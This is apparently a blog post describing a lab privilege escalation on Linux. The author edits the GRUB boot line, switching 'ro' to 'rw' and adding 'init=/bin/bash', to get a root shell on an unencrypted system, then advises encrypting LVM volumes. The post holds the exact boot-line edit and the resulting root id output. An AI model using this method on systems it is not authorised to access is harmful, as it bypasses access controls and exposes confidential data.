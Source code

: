 ```yaml
---
author: FreezingKas
title: The fastest privilege escalation on GRUB
description: In this post, FreezingKas will teach you how to easily privesc on GRUB.
slug: fastest-grub-privilege-escalation
date: 2023-03-24 00:00:00+0000
#lastUpdated: Jul 24, 2023 10:00 UTC
image: assets/grub.jpg
categories:
    - Privilege Escalation
tags:
    - Grub
    - System
    - Linux
---
```


# Fastest Privesc on Grub 
## Context

During Networking Security class, i had a lab with seven servers on a Proxmox created by our teacher without a root user.

After reporting all privilege escalations with `sudo` commands, my teacher decided to disable all the `sudo` commands until he could find a solution.

Unfortunately, it was not enough.

## Privesc

Grub is a boot loader that allows you to choose which operating system to boot.

It was installed on the servers, and I could edit startup scripts :

```bash
recordfail
load_video
gfxmode $linux_gfx_mode
insmod gzio
if [ x$grub_platform = xxen ]; then insmod xzio; insmod lzopio; fi
insmod part_gpt
insmod ext2
search --no-floppy --fs-uuid --set=root <UUID>
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> ro quiet splash $vt_handoff
initrd /boot/initrd.img-5.15.0-56-generic
```

In our case, the LVM was not encrypted, so we could access files by spawning a root shell :

```bash
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> ro quiet splash $vt_handoff
```

Just change `ro` (read_only) to `rw` (read-write) and add init=/bin/bash at the end of the line, then reboot the server.

```bash
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> rw quiet splash $vt_handoff init=/bin/bash
```

We can now access the root user.

```bash
root@(none):/$ id
uid=0(root) gid=0(root) groups=0(root)
```

## Conclusion

Please encrypt your LVMs. Imagine it was not a lab, but an enterprise laptop with confidential documents.
When you encrypt LVM you can't read files when changing `ro` to `rw` in the grub file, passphrase is required.
